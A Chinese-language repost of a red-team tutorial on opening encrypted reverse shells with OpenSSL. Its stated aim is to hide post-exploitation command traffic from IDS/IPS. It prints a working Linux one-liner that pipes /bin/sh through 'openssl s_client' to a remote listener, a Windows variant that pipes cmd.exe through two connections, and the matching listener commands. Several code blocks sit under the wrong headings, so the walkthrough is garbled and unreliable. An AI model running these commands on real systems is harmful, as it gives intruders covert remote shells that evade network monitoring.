 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/HejY3qcBqt3Mr88TcjlKaw)

**博客：**HeyComputer  

**Referrence:https://xax007.github.io/2019-03-07-reverse-encrypted-shell-with-openssl/  
**

目录
--

*   前言
    
*   OpenSSL 简介
    
*   使用 OpenSSL 生成证书自签名证书
    
*   使用 OpenSSL 反弹加密 shell
    

*   Linux
    
*   Windows
    

*   使用 OpenSSL 搭建简易 HTTPS Server
    
*   参考链接
    

**1. 前言**
---------

    在进行红队渗透测试的后渗透阶段为了进一步横行渗透往往需要反弹 shell，这里列出了使用各种语言进行反弹 shell 的方法，我发现这种反弹 shell 方式都有一个缺点，那就是**所有的流量都是明文传输的**。

    我们使用 nc 反弹 shell 进行测试

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icm7702wFBBJmAy5hibVxP3jodOBG2jeGKIehFVS2CDgq7DY523mIh6U6YOASm9k8yU13cRtACaPwoA/640?wx_fmt=png)

       使用 wireshark 可以直接看到我们执行的命令和返回信息

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icm7702wFBBJmAy5hibVxP3joBoKRs0bVC3Vm3xfE5P5iby7UTHy9lnyv7bn4cAMc4siaPKQPGnqibZtsA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icm7702wFBBJmAy5hibVxP3jofDlkfoicxfric2HWnIcox6A78Jllj9hB0ZtcCOqOV67SdiajdNPiag5YWQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icm7702wFBBJmAy5hibVxP3joOkeyCgGovBgpedyoXpOVx4hsduacT8GoTIsmticvlLoHiawEuulXicuJA/640?wx_fmt=png)

    在这种情况下当我们进行操作时，网络防御检测系统 (IDS、IPS 等) 会获取到我们的通信内容并进行告警和阻止，因此需要对通信内容进行混淆或加密，这时可以选择使用 OpenSSL 反弹一个加密 shell。

**2. OpenSSL 简介**
-----------------

    在计算机网络上，OpenSSL 是一个开放源代码的软件库包，应用程序可以使用这个包来进行安全通信，避免窃听，同时确认另一端连接者的身份

利用 OpenSSL 反弹 shell 之前需要生成自签名证书

使用 OpenSSL 生成证书自签名证书
--------------------

```
openssl s_server -quiet -key key.pem -cert cert.pem -port 1337
```

生成自签名证书时会提示输入证书信息，如果懒得填写可以一路回车

**3. 使用 OpenSSL 反弹加密 shell**
----------------------------

### **3.1  Linux**

      假设我们从 A 主机反弹 shell 到 B 主机

```
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 172.16.1.174:1337 > /tmp/s; rm /tmp/s
```

      首先需用利用上一步生成的自签名证书，在 B 主机上使用 OpenSSL 监听一个端口，在这里使用 1337 端口

命令为：

```
openssl s_client -quiet -connect [ip]:[port1] | cmd.exe | openssl s_client -quiet -connect [ip]:[port2]
```

     此时 OpenSSL 在 1337 端口上启动了一个 SSL/TLS server

     这时在 B 主机进行反弹 shell 操作，命令为：

```
openssl s_server -quiet -key [keyfile] -cert [cert] -port [port1]
```

     这样就使用 OpenSSL 反弹了一个加密的 shell

     效果如下：

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icm7702wFBBJmAy5hibVxP3joz0XmLha9QSa479GAFwt4cHkztFlnR4sZF0HnEUrtG6dLleuH7DKtiaA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icm7702wFBBJmAy5hibVxP3jo8cNI5mvwAcm8ibMXvo2Smib5UhsyqFzkucLYU0obB0ChqzhF25kFBJJA/640?wx_fmt=png)

### **3.2 Windows**

    在 Windows 系统上反弹加密 shell 的方式有点不一样

    具体命令如下：

```
openssl s_server -quiet -key [keyfile] -cert [cert] -port [port2]
```

    以上命令会从 `[ip]:[port1]` 获取命令发送给 `cmd.exe`执行，然后把结果返回到 `[ip]:[port2]`

    因此在本机需要启动两个 `s_server`

    从 `port1` 发送命令到 cmd

```
openssl s_server -key key.pem -cert cert.pem -accept 44330 -WWW
```

    从 `port2` 获取发送给 `port1` 的命令执行结果

```
openssl s_server -quiet -key [keyfile] -cert [cert] -port [port2]
```

    OpenSSL 还有很多功能，这里详细的列出了 OpenSSL 的常见使用方法

    在渗透测试时，还可以使用 OpenSSL 搭建简易 HTTPS Server

**4. 使用 OpenSSL 搭建简易 HTTPS Server**
-----------------------------------

     使用以下命令前需要使用 OpenSSL 生成证书自签名证书，命令在上文中已给出

```
openssl s_server -key key.pem -cert cert.pem -accept 44330 -WWW
```

      以上命令在 44330 端口启动了一个 HTTPS Server  

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icm7702wFBBJmAy5hibVxP3joicCOszbLPOswUVvByIljWH2U4c8W183LicL3sooj2fUYGpic6ibialtISKQ/640?wx_fmt=png)

**参考链接**
--------

*   Reverse Shell with OpenSSL
    
*   Create a simple HTTPS server with OPENSSL S_SERVER
    
*   OpenSSL == NC
    

原文链接：https://www.cnblogs.com/heycomputer/articles/10697865.html

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)

一如既往的学习，一如既往的整理，一如即往的分享。感谢支持![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icl7QVywL8iaGT0QBGpOwgD1IwN0z9JicTRvzvnsJicNRr2gRvJib6jKojzC5CJJsFPkEbZQJ999HrH5Gw/640?wx_fmt=png)  

“如侵权请私聊公众号删文”

****扫描关注 LemonSec****  

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icncXiavFRorU03O5AoZQYznLCnFJLs8RQbC9sltHYyicOu9uchegP88kUFsS8KjITnrQMfYp9g2vQfw/640?wx_fmt=png)

**觉得不错点个 **“赞”**、“在看” 哦****![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1YhlAJOGvAaVRV0ZSSnX46ibouOHe05icukBYibdJOiaOpO06ic5eb0EMW1yhjMNRe1ibu5HuNibCcrGsqw/640?wx_fmt=png)**